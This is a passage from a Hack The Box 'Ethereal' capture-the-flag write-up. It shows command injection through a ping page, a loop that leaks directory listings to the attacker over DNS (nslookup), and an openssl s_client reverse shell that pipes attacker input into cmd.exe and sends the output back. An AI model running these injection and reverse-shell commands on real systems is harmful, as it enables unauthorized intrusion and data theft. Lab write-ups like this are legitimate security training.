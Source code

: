 ![](/images/hackthebox/ethereal/44.png)
<br> [Read more about s_server](https://www.openssl.org/docs/man1.0.2/man1/openssl-s_server.html)
<br> We are setting up 2 servers because we are going to use openssl on the box to connect on port 73 and take our input , then we will pipe that input to cmd.exe then we will pipe the output to our server on port 136.
<br> Now we need to locate openssl.exe , if we listed the contents of `OpenSSL-v1.1.0` in `Program Files (x86)` (can also be written `Progra~2`. check [this](https://stackoverflow.com/questions/892555/how-do-i-specify-c-program-files-without-a-space-in-it-for-programs-that-cant/892568)) we will get this output :
`10.10.xx.xx & for /f "tokens=1,2,3" %a in ('dir /B "C:\Program Files (x86)\OpenSSL-v1.1.0"') do nslookup %a.%b.%c 10.10.xx.xx`
![](/images/hackthebox/ethereal/45.png)
<br> We see a directory called `bin` that's where `openssl.exe` is located so the path is `c:\progra~2\OpenSSL-v1.1.0\bin\openssl.exe`
<br> Now everything is ready , in the ping page we will write this :
`10.10.xx.xx | "C:\Program Files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -quiet -connect 10.10.xx.xx:73 | cmd.exe | "C:\Program Files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -quiet -connect 10.10.xx.xx:136`
<br> Then we will check our server :